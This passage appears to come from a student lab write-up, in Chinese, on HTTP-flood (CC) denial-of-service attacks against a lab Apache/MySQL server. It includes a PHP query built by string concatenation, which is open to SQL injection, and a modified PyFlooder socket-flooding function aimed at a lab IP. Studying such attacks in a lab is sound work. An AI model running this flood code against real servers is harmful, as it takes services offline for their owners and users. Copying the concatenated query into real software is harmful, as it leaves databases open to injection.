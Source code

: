 	- 然后在apache的服务器中增加一个对数据库访问的php页面 [rand.php](https://github.com/CUCCS/2018-NS-Group-Public-echo-helloddos/blob/master/source_code/pyflooder.py),功能为：每次产生两个随机字符串，并对employees数据表进行查询。
		
			其中sql检索语句为`$sql = "select * from employees where first_name = '".$a."' and last_name ='".$b."' order by birth_date desc limit 30";`
		
			之所以使用随机字符串是因为观察案发现mysql数据库有类似于缓存的功能。同样的语句`第一次执行`和`第二次执行`使用时间不同，如下图。为了达到较好的攻击效果，采取每次查询均使用随机字符串的方法。
			![23](https://github.com/CUCCS/2018-NS-Group-Public-echo-helloddos/raw/master/img/23.PNG)
	

	
	-  使用单ip进行CC攻击（以apache服务器为例）
		
			在`attacker`中采用 [HTTP FLOOD](https://github.com/D4Vinci/PyFlooder)的攻击方法（对源码进行[修改](https://github.com/CUCCS/2018-NS-Group-Public-echo-helloddos/blob/master/source_code/pyflooder.py)以访问指定页面），不断对victim的[rand.php](https://github.com/CUCCS/2018-NS-Group-Public-echo-helloddos/blob/master/source_code/pyflooder.py)页面进行访问。对应函数为：
			
			```
			def attack():
	 				print_status()
   		   		url_path = generate_url_path()
	
	    	# Create a raw socket
	 		 		  dos = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	
		 	 	try:
    	   			 # Open the connection on that raw socket
     	   			dos.connect((ip, port))
  ​		
		      			# Send the request according to HTTP spec
    	   			 dos.send("GET /rand.php HTTP/1.1\r\nHost: 169.254.227.182\r\nUser-Agent: curl/7.61.0\r\nAccept: */*\r\n\r\n")   
    	   			 
   				except socket.error, e:
   	       			print "\n [ No connection, server may be down ]: " + str(e)
	 	       			